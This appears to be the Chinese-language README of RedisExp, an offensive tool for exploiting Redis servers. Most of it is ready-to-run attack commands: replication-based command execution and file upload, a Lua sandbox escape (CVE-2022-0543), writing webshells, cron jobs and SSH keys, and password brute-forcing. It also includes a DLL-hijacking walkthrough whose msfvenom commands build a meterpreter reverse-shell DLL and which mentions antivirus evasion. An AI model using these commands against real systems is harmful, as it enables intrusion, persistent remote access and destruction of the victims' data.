






## Redis 漏洞利用工具

快捷使用：`RedisExp`

```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

2022/05/23 23:36:54 [+]  -h 靓仔查看下帮助吧
Example:
主从复制命令执行:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so

主从复制文件上传:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload

主动关闭主从复制:
RedisExp.exe -rhost 192.168.211.131 -slaveof

Lua沙盒绕过命令执行 CVE-2022-0543:
RedisExp.exe -rhost 192.168.211.131 -lua -console

备份写 Webshell:
RedisExp.exe -rhost 192.168.211.131 -shell

Linux 写计划任务:
RedisExp.exe -rhost 192.168.211.131 -crontab

Linux 写 SSH 公钥:
RedisExp.exe -rhost 192.168.211.131 -ssh

爆破 Redis 密码:
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf ../pass.txt

执行 Redis 命令:
RedisExp.exe -rhost 192.168.211.131 -cli

导出 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -dump

导入 Redis 数据:
RedisExp.exe -rhost 192.168.211.131 -import
```

```
cmd
├── crontab.txt    默认写入的Linux下的crontab定时任务文件，用前需要修改
├── exp.dll        默认导入的Windows Redis模块
├── exp.so         导入的Linux Redis模块
├── main.go        编译攻击主程序
├── out.json       导出导入的 Redis 数据
├── pass.txt       爆破字典
├── shell.txt      默认写入的 Webshell 文件，用前需要修改
└── ssh.txt        默认写入的Linux下的ssh公钥文件，用前需要修改

```


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

### 解决

1、导出 Redis 数据

2、利用主从复制漏洞

3、导入 Redis 数据

> **主从复制默认调用了 导出 Redis 数据  和 导入数据，也可以主动导出和导入。**


### 主从复制漏洞

#### 命令执行

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
Windows:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console

Linux:
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -so exp.so
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -exec -console -so exp.so
````



#### 文件上传

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dump.rdb -lfile dump.rdb -upload
```



#### Windows 劫持 dbghelp.dll

https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/#toc-heading-22

1、使用 msf 生成 dll ，（cs 需要自己写一个调用 rundll32 .exe的dll，不能直接使用）

```
# 64 位

msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.211.130 LPORT=5555 > 64.dll

# 32 位
msfvenom -p windows/meterpreter/reverse_tcp -ax86 -f dll LHOST=ip LPORT=端口 > reverse_32bit.dll
```

2、生成项目DLL后使用Koppeling项目中的Python3脚本来链接到转发DLL: https://github.com/monoxgas/Koppeling

```
python -m pip install pefile

python .\PyClone.py 64.dll C:\windows\system32\dbghelp.dll -o dbghelp.dll
```

3、利用主从复制上传制作好的  dbghelp.dll

```
RedisExp.exe -rhost 192.168.211.131 -lhost 192.168.211.1 -rfile dbghelp.dll -lfile dbghelp.dll -upload
```

4、执行 bgsave 成功上线

```
RedisExp.exe -rhost 192.168.211.134 -cli

bgsave
```

5、dll 需要免杀，好像不太稳定，自行在本地测试再利用。


### RDB备份文件利用

#### 写 Webshell

```
RedisExp.exe -rhost 192.168.211.131 -shell
```



#### Linux写计划任务

```
RedisExp.exe -rhost 192.168.211.133 -crontab
```



#### Linux写SSH公钥

```
RedisExp.exe -rhost 192.168.211.133 -ssh
```



### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```


### 爆破 Redis 密码

```
RedisExp.exe -rhost 192.168.211.131 -brute -pwdf pass.txt
```




### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/

 

